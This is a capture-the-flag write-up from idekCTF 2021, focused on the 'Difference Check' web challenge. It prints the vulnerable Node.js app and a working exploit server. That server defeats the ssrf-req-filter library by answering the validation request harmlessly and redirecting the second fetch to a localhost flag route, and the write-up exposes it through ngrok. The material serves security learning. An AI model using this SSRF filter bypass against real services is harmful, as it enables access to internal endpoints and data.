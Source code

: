 # idekCTF 2021 write-ups

![Banner](https://i.imgur.com/38WiIUr.jpg)

The first edition of idekCTF brought some really nice and creative web challenges.

We solved almost all of the web challenges. We didn't have much time to work on generic pastebin, but the first look on it was also great.

We also solved some pwn, rev, misc, forensics and crypto challenges and **got 8th place!!**

![Leaderboard](https://i.imgur.com/MraLxeH.png)

I worked on 3 challenges that I'll write about here.

## Difference Check

![Difference Check](https://i.imgur.com/Z3A19cK.png)

### Challenge

In this challenge, we have an app that gets two links and shows the differences of content in a colored diff format.

![Difference Check - Output](https://i.imgur.com/FT5Kq9U.png)

We also have the source code:

```javascript=
const express = require('express');
const bodyParser = require('body-parser');
const app = express();
const ssrfFilter = require('ssrf-req-filter');
const fetch = require('node-fetch');
const Diff = require('diff');
const hbs = require('express-handlebars');
const port = 1337;
const flag = 'idek{REDACTED}';


app.use(bodyParser.urlencoded({ extended: true }));
app.engine('hbs', hbs.engine({
    defaultLayout: 'main',
    extname: '.hbs'
}));

app.set('view engine', 'hbs');


async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};

async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};

app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Invalid format received'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});

app.listen(port, () => {
	console.log(`App listening at http://localhost:${port}`)
});
```

* **Summary**
    * There is a **/flag** route, but it only accepts local connections. Our hearts say we have to look for [SSRFs](https://portswigger.net/web-security/ssrf) here.
    * The **/diff** route calls a validation function. If the validation is accepted, render using the diff package.
    * The validation function uses the package [ssrf-req-filter](https://github.com/y-mehta/ssrf-req-filter) to prevent shenanigans (we know you).

### Hack

This is a very direct challenge. We have to bypass the SSRF filter, using the /diff route to get the content of /flag.

Of course, we are blocked:

![Request Denied](https://i.imgur.com/O8hqC6g.png)

The validifyURL function calls the ssrfFilter functions, which identifies the hack.

To bypass the filter, I tried and failed some alternatives:
* Using some SSRF cheat sheets
* Created a server that redirected the request to 127.0.0.1

The source code for ssrf-req-filter is quite small:
https://github.com/y-mehta/ssrf-req-filter/blob/master/lib/index.js

The redirect didn't work, because the filter not only analyze the URL string, but it makes the request, following redirects, and checks the IP of the final URL (Damn you!)

Now we know we'll receive two requests: the filter and the actual request from diff function.

To bypass the filter, we can make a server to respond the first request (filter) with a bullshit value and the next (actual request) with a redirect to http://127.0.0.1:1337/flag.

```javascript=
const express = require('express');
const app = express();
const port = 1338;

myredirect = false;

app.get('/one', (req, res) => {
    if (myredirect) {
        myredirect = false;
        res.redirect("http://127.0.0.1:1337/flag");
    } else {
        myredirect = true;
        res.send("One!");
    }
});

// Just to fill the second diff textbox
app.get('/two', (req, res) => {
    res.send("Two!");
});

app.listen(port, () => {
	console.log(`App listening at http://localhost:${port}`)
});
```

Let's start it:
```
$ node exploiter.js 
App listening at http://localhost:1338
```

And expose it on ngrok, with address: http://4070-201-17-126-102.ngrok.io

Let's play the game:
![Fill the hack values](https://i.imgur.com/jZtHb1b.png)

Post it!
![diff-owned](https://i.imgur.com/oKRwq9L.png)

Flag:
```
idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}
```

## Steghide as a Service

## Fancy Notes

## References
* CTF Time Event: https://ctftime.org/event/1512
* idekCTF: https://ctf.idek.team/
* CTF Discord: https://discord.gg/Rrhdvzn
* Repo with the artifacts discussed here: https://github.com/Neptunians/idekctf-2021-writeups
* SSRF: https://portswigger.net/web-security/ssrf
* ssrf-req-filter: https://github.com/y-mehta/ssrf-req-filter
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](https://twitter.com/NeptunianHacks) 